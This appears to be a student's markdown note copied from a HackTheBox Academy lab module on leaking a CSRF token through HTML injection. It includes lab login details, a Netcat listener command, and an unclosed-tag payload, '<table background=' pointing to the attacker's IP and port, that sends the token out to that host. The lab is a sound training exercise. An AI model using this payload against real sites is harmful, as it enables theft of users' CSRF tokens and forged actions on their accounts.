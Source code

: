 ```yaml
---
sticker: emoji//1f512
---
```

The vast majority of applications nowadays perform actions through POST requests. Subsequently, CSRF tokens will reside in POST data. Let us attack such an application and try to find a way to leak the CSRF token so that we can mount a CSRF attack.

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target application and follow along. Don't forget to configure the specified vhost (`csrf.htb.net`) to access the application.

Navigate to `http://csrf.htb.net` and log in to the application using the credentials below:

- Email: heavycat106
- Password: rocknrol

This is an account that we created to look at the application's functionality.

After authenticating as a user, you'll notice that you can delete your account. Let us see how one could steal the user's CSRF-Token by exploiting an HTML Injection/XSS Vulnerability.

Click on the "Delete" button. You will get redirected to `/app/delete/<your-email>`

![image](https://academy.hackthebox.com/storage/modules/153/36.png)

Notice that the email is reflected on the page. Let us try inputting some HTML into the _email_ value, such as:

![](Pasted image 20250219130350.png)

![image](https://academy.hackthebox.com/storage/modules/153/37.png)

If you inspect the source (`Ctrl+U`), you will notice that our injection happens before a `single quote`. We can abuse this to leak the CSRF-Token.

![image](https://academy.hackthebox.com/storage/modules/153/39.png)

Let us first instruct Netcat to listen on port 8000, as follows.

```shell-session
smoothment@htb[/htb]$ nc -nlvp 8000
listening on [any] 8000 ...
```

Now we can get the CSRF token via sending the below payload to our victim.


```html
<table%20background='%2f%2f<VPN/TUN Adapter IP>:PORT%2f
```

While still logged in as Julie Rogers, open a new tab and visit `http://csrf.htb.net/app/delete/%3Ctable background='%2f%2f<VPN/TUN Adapter IP>:8000%2f`. You will notice a connection being made that leaks the CSRF token.

![image](https://academy.hackthebox.com/storage/modules/153/40.png)

Since the attack was successful against our test account, we can do the same against any account of our choosing.

We remind you that this attack does not require the attacker to reside in the local network. HTML Injection is used to leak the victim's CSRF token remotely!

Next, we will cover how you can chain XSS and CSRF to attack a user's session.

# Question
---
![](Pasted image 20250219130418.png)

